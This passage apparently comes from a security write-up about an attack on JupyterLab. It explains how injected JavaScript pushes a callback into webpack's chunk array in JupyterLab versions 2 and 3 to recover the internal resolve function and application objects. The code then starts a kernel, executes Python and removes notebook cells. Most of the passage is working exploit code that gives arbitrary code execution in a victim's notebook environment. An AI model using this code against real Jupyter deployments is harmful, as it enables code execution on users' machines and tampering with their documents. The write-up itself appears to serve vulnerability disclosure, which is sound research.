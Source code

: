In JupyterLab, the classical notebook APIs (like “notebook.kernel.execute”) are not exposed. While we could have used the REST APIs to execute arbitrary code, we did it the hard way, by unpacking webpack. This part is just included as an FYI, to demonstrate the feasibility of the attack.

We wanted to support the most recents major versions of JupyterLab, version 2 and 3. The main difference is the version of webpack used. The major version can be identified using the global exposed variable:

```javascript
if (window.webpackChunk_jupyterlab_application_top != undefined) {
   jupyter_lab3_trigger();
} else if (window.webpackJsonp != undefined) {
   jupyter_lab2_trigger();
```

To expose the hidden API, we need to recover 4 objects: the resolve function used by webpack to find entries of modules, the JupyterLab application, which is the main javascript class, the KernelManager, allowing to create new kernels and the IDocumentManager, allowing to interact with notebook documents.


To find the resolve function, we can push a new callback object in the webpack main array, when the callback is executed, the resolve function is given in the third argument.

```javascript
function jupyter_lab2_trigger() {
  webpackJsonp.push([
    [], {
      '1337': function(a, b, r) {
        window.r = r; // r is the resolve function
        var resolv = jupyterv2_resolve();
        get_lab(resolv.app)
            .then(lab => get_docmgr(lab, resolv.docm.a))
            .then(get_context)
            .then(remove_cells)
        start_kern(resolv.srv).then(exec_python);
      }
    },
    [[1337, 0]]
  ]);
}
```

For JupyterLab version 3, the idea is similar but the resolve function is the first callback argument:
```javascript
function jupyter_lab3_trigger() {
  window[Object.keys(window).filter(name => name.startsWith('webpack'))[0]]
      .push([
        [], null,
        function(r) {
          window.r = r; // r is the resolve function
          Promise.all([get_app().then(app => get_lab(app())), get_docm()])
              .then(arr => get_docmgr(arr[0], (arr[1])().IDocumentManager))
              .then(get_context)
              .then(remove_cells)
          get_srv().then(k => start_kern(k())).then(exec_python)
        }
      ])
}
```
